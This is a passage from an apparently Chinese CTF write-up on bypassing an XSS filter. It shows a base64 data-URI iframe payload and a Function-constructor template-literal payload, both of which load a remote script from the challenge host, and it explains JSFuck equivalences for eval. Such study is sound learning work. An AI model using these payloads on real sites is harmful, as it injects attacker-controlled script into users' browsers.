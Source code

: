     
    <iframe src="data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMiPjwvc2NyaXB0Pg">
    

又回到了之前的 `base64` 大法，妙哉，妙哉！

## 方法二

题目作者给出的一种方法：

    
    
    http://xcao.vip/test/xss7.php/?data=1;[]['filter']['constructor']`a${location['hash']['slice']`1`}```#with(document)body.appendChild(createElement('script')).src='http://xcao.vip/xss/alert.js'
    

让我们来看看又用了些什么神奇的姿势。

首先是 `[]['filter']['constructor']` 这一部分，经查，这种语法是 `JSFuck` 的用法。

JSFuck 是一种深奥的 JavaScript 编程风格。以这种风格写成的代码中仅使用 `[`、`]`、`(`、`)`、`!` 和 `+` 六种字符。

此编程风格的名字派生自仅使用较少符号写代码的 Brainfuck
语言。与其他深奥的编程语言不同，以JSFuck风格写出的代码不需要另外的编译器或解释器来执行，无论浏览器或 JavaScript 引擎中的原生
JavaScript 解释器皆可直接运行。

鉴于 JavaScript 是弱类型语言，编写者可以用数量有限的字符重写 JavaScript 中的所有功能，且可以用这种方式执行任何类型的表达式。

JSFuck 常见的取值有以下这些：

    
    
    false       =>  ![]
    true        =>  !![]
    undefined   =>  [][[]]
    NaN         =>  +[![]]
    0           =>  +[]
    1           =>  +!+[]
    2           =>  !+[]+!+[]
    10          =>  [+!+[]]+[+[]]
    Array       =>  []
    Number      =>  +[]
    String      =>  []+[]
    Boolean     =>  ![]
    Function    =>  []["filter"]
    eval        =>  []["filter"]["constructor"]( CODE )()
    window      =>  []["filter"]["constructor"]("return this")()
    

回到题目，根据上面这个对应关系，我们可以 `[]['filter']['constructor']` 对应成
`eval`，后面的部分已经很熟悉了，这里就不再赘述了。

这里也有一个不好理解的地方，在`${location['hash']['slice'](1)}`
这个地方的前面，作者添上了一个字符，说是不添加就会报错，我自己也尝试了一下，确实是这样：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/27d70f6b26804e798121fefbd076d190.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
报错显示缺少形参。
